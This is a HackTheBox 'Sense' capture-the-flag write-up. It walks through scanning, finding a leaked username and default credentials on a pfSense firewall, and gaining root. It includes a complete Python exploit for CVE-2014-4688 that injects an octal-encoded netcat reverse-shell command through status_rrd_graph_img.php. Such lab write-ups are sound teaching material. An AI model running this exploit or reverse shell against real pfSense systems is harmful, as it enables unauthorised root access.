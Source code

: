 # HackTheBox - Sense Writeup


Box author | {{< person url="https://app.hackthebox.com/users/709" name="lkys37en" picture="https://www.hackthebox.com/storage/avatars/17318612f22650dd53240578156ab264.png" >}}

<!--more-->

## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,443 -sCV -oN nmap/sense 10.10.10.60

80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

Well, only `2` ports are open, which is port `80` and `443`. Based on the port and service itself, looks like I'm dealing with the webserver this time. However, the scan results show me that the `url` on port `80` has been redirected to port `443` which is the `HTTPS` port.

## Https: Pfsense
I've navigated to port `443` on my browser and accepted the `SSL` certificates. I'll check the certificate and nothing useful for me. Turn's out, it is a [Pfsense](https://www.pfsense.org/) login page. Then, I'll try login in with the default credentials which is `admin:pfsense` and nothing unveil. By the look at the `index` page extension, this is a `PHP` webpage.

![pfsense login page](login-page.png "pfsense login page")

### Gobuster
Then, I run the [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. Unfortunately, I can't find anything useful and it's just found empty directories. So, I ended up putting a bunch of extensions such as `php,txt,html,cgi` for the second scan, and it manage to find "gold".

![gobuster](gobuster-scan.png "gobuster")

### Https: /changelog.txt
The first file that caught my attention is called `changelog.txt`. Upon expecting the file it says `"2 of 3 vulnerabilities have been patched"`. This gives me an idea of this particular version having a severe flaw that hasn't been patched. I have 1/3 luck here, to find which one of the flaws is.

![changelog.txt](changelog-txt.png "changelog.txt")

### Https: /system-users.txt
Anyways, I've navigated to another text file called `system-users.txt` which leaks the username. However, the password says `"company defaults"`. Then, it makes me think it could be the box name which is `sense` just like [nibbles](https://shafiqaiman.com/hackthebox-nibbles-writeup/) box that I did before, or the default [Pfsense](https://www.pfsense.org/) credentials which is `pfsense`.

![found username](system-users-txt.png "found username")

### Https: Pfsense/Dashboard
I'll try both credentials and the correct one is `pfsense` and it looks just like a generic pfsense dashboard, what do I expect :). However, it has the version number sitting in front of me which is `2.1.3-RELEASE`.

![pfsense version](version-number.png "pfsense version")

## Foothold: CVE-2014-4688
Since this is an old box, I immediately find the exploit and cve with it. This vulnerability is assigned to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) and the description says `"this CVE assign to 3 vulnerabilty found in pfsense"`. However, one of them did not patch as the `changelog.txt` file expose to me. Luckily, I find this [exploit](https://www.exploit-db.com/exploits/43560) on [exploit-db](https://www.exploit-db.com/). Which explores the vulnerability in post-authentication in the `status_rrd_graph_img.php` page but again I want to be "l33t" and create my exploits by copying the existent exploits. (Why not? lol). Credited to Ryan McFarland aka [absolomb](https://www.absolomb.com/) and here are the results.

```python
#!/usr/bin/env python3
import sys
import argparse
import requests
from bs4 import BeautifulSoup as bs
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()
parser.add_argument('-U', '--username', metavar='', help='Username')
parser.add_argument('-P', '--password', metavar='', help='Password')
parser.add_argument('-r', '--rhost', metavar='', help='Remote IP')
parser.add_argument('-i', '--lhost', metavar='', help='Listening IP')
parser.add_argument('-p', '--lport', metavar='', help='Listening port')
args = parser.parse_args()

def get_csrf():
    req = requests.get(f"https://{args.rhost}/index.php", verify=False)
    soup = bs(req.text, features="lxml")
    csrf = soup.find('input', {'name':'__csrf_magic'})['value']
    return csrf

def payload(ip, port):
    payload = ""
    command = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {ip} {port} > /tmp/f"
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))
    return payload

if __name__ == '__main__':
    try:
        s = requests.Session()
        csrf = get_csrf()
        payload = payload(args.lhost, args.lport)

        data = {'__csrf_magic':csrf, 'usernamefld':args.username, 'passwordfld':args.password, 'login':'Login'}
        req = s.post(f"https://{args.rhost}/index.php", data=data, verify=False)
        print(f"LOGIN... {req.status_code}")

        print("Trying to exploit...")
        req = s.get(f"https://{args.rhost}/status_rrd_graph_img.php?database=queues;printf+'{payload}'|sh", verify=False)
        print("If you see this, it's doesn't work!")
    except (KeyboardInterrupt, requests.exceptions.ConnectionError) as Error:
        sys.exit()
```

![shell as root](root.png "shell as root")

BOOM! root baby! this is because firewall applications tend to be installed under root privilege.
